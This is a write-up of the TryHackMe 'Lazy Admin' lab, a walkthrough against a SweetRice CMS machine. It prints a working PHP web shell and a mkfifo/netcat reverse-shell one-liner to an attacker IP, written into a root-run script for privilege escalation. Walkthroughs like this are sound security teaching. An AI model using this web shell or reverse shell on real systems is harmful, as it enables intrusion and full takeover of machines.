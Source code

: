 ```yaml
---
layout: post
title: Lazy Admin
date: 2020-09-23 00:00:00 +5:30
categories: [TryHackMe, Easy]
tags: [tryhackme, hashcracking, wordpress, GTFO] # add tag
---
```


## Description

The Following Post is writeup of Lazy Admin room of tryhackme <https://tryhackme.com/room/lazyadmin>

|Machine|Detail
|:---|:--
|OS | Linux
|Rating | Easy
|Creator | MrSeth6797

## Summary

The machine have 2 open ports 22 and 80, In port 80 we have sweetrice CMS(on Dirbusting). On searching
for public exploits we found a backup disclosure which contains admin username and password.
We have php code execution in ads tab of sweetrice. www-data can run a script as sudo and have write
rights for thats so putting reverse shell we will get root.

## Walkthrough

### Enumeration

```bash
┌─[root@parrot]─[~/Desktop/lazyadmin]
└──╼ $nmap -sC -sV -oA nmap/lazy 10.10.232.150
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-31 03:48 IST
Nmap scan report for 10.10.232.150
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.24 seconds
```

So let;s see port 80

#### port 80

So we can see few links after the Webpage loaded.
Moving on to dirbust.

```bash
┌─[✗]─[root@parrot]─[~/Desktop/lazyadmin]
└──╼ $ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.232.150/FUZZ

        /'___\  /'___\           /'___\      
       /\ \__/ /\ \__/  __  __  /\ \__/      
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\     
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/     
         \ \_\   \ \_\  \ \____/  \ \_\      
          \/_/    \/_/   \/___/    \/_/      

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.232.150/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
content                 [Status: 301, Size: 316, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10]
```

Dirbusting content again.

```bash
┌─[root@parrot]─[~/Desktop/lazyadmin]
└──╼ $ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.232.150/content/FUZZ

        /'___\  /'___\           /'___\      
       /\ \__/ /\ \__/  __  __  /\ \__/      
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\     
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/     
         \ \_\   \ \_\  \ \____/  \ \_\      
          \/_/    \/_/   \/___/    \/_/      

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.232.150/content/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
_themes                 [Status: 301, Size: 324, Words: 20, Lines: 10]
as                      [Status: 301, Size: 319, Words: 20, Lines: 10]
attachment              [Status: 301, Size: 327, Words: 20, Lines: 10]
images                  [Status: 301, Size: 323, Words: 20, Lines: 10]
inc                     [Status: 301, Size: 320, Words: 20, Lines: 10]
js                      [Status: 301, Size: 319, Words: 20, Lines: 10]
```

![sweetrice](/assets/img/lazyadmin/sweetrice.png)

![login](/assets/img/lazyadmin/login.png)

So we have sweetrice in /content and login in /content/as.<br/>
Let's check if we can get any info about sweetrice.

![searchsploit](/assets/img/lazyadmin/searchsploit.png)

We can see backup disclosure let's check that output
![backup](/assets/img/lazyadmin/backup.png)

Download the backup and look into it we got admin user and password.
![backup](/assets/img/lazyadmin/sql.png)

![HashCrack](/assets/img/lazyadmin/hashcrack.png)

OK so finally logged in we can see another vulnerability on ads tab in sweetrice which leads to rce.

<https://packetstormsecurity.com/files/139521/SweetRice-1.5.1-Code-Execution.html>

#### Exploitation

so according to packet storm we can exec code using ads feature in sweet rice

![ads](/assets/img/lazyadmin/ads.png)

so i uploaded a simple php shell

```html
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>

</html>
```

let's get a reverse shell

```bash
┌─[root@parrot]─[~/Desktop/tryhackme/lazyadmin]
└──╼ $pwncat --listen --port 4444
[11:07:07] received connection from 10.10.182.220:46374                                                                connect.py:148
[11:07:08] new host w/ hash 0a307a4f181fea16ebb4d9fe234f3689                                                            victim.py:325
[11:07:19] pwncat running in /bin/sh                                                                                    victim.py:358
[11:07:27] pwncat is ready 🐈                                                                                           victim.py:768


(remote) www-data@THM-Chal:/$bash

www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

```
so we can edit copy.sh and get root

```bash
www-data@THM-Chal:/home/itguy$ ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
www-data@THM-Chal:/home/itguy$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.108.114 4443 >/tmp/f" > /etc/copy.sh

┌─[root@parrot]─[~/Desktop/tryhackme/lazyadmin]
└──╼ $pwncat --listen --port 4443
[11:36:23] received connection from 10.10.182.220:42902                                          connect.py:148
[11:36:26] new host w/ hash 0a307a4f181fea16ebb4d9fe234f3689                                      victim.py:325
[11:36:39] pwncat running in /bin/sh                                                              victim.py:358
[11:36:46] pwncat is ready 🐈                                                                     victim.py:768


(remote) root@THM-Chal:/$ bash
root@THM-Chal:/# ls
bin   cdrom  etc   initrd.img      lib         media  opt   root  sbin  srv  tmp  var      vmlinuz.old
boot  dev    home  initrd.img.old  lost+found  mnt    proc  run   snap  sys  usr  vmlinuz
root@THM-Chal:/# cd root/
root@THM-Chal:~# ls
root.txt
root@THM-Chal:~# cat root.txt
```
